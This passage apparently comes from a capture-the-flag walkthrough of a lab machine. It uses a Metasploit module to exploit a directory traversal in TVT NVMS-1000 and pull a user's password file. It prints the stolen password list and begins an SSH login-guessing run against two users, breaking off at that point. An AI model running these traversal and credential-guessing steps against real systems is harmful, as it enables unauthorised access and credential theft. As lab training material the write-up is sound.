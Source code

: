 OK. This sounds promising if we connect the traversal with this Password path hint we might be able to access the files. Lets use msfconsole

{% highlight bash %}
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > search nvms

Matching Modules
================

   #  Name                                       Disclosure Date  Rank    Check  Description
   -  ----                                       ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/tvt_nvms_traversal  2019-12-12       normal  No     TVT NVMS-1000 Directory Traversal


msf5 auxiliary(scanner/http/tvt_nvms_traversal) > use 0
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > set rhosts 10.10.10.184
rhosts => 10.10.10.184
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > set FILEPATH /Users/Nathan/Desktop/Passwords.txt
FILEPATH => /Users/Nathan/Desktop/Passwords.txt
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > run

[+] 10.10.10.184:80 - Downloaded 156 bytes
[+] File saved in: /home/kali/.msf4/loot/20200519201005_default_10.10.10.184_nvms.traversal_218286.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > 
{% endhighlight %}


Checking the file content:

{% highlight bash %}
$ cat /home/kali/.msf4/loot/20200519201005_default_10.10.10.184_nvms.traversal_218286.txt
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
{% endhighlight %}

That's a possible list of passwords I believe. We have two possible users:
{% highlight bash %}
nadine
nathan
{% endhighlight %}

With this password list, so we can use msfconsole with ssh_login to try them:

{% highlight bash %}
msf5 > search ssh_login

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  auxiliary/scanner/ssh/ssh_login                          normal  No     SSH Login Check Scanner
   1  auxiliary/scanner/ssh/ssh_login_pubkey                   normal  No     SSH Public Key Login Scanner


msf5 > use 0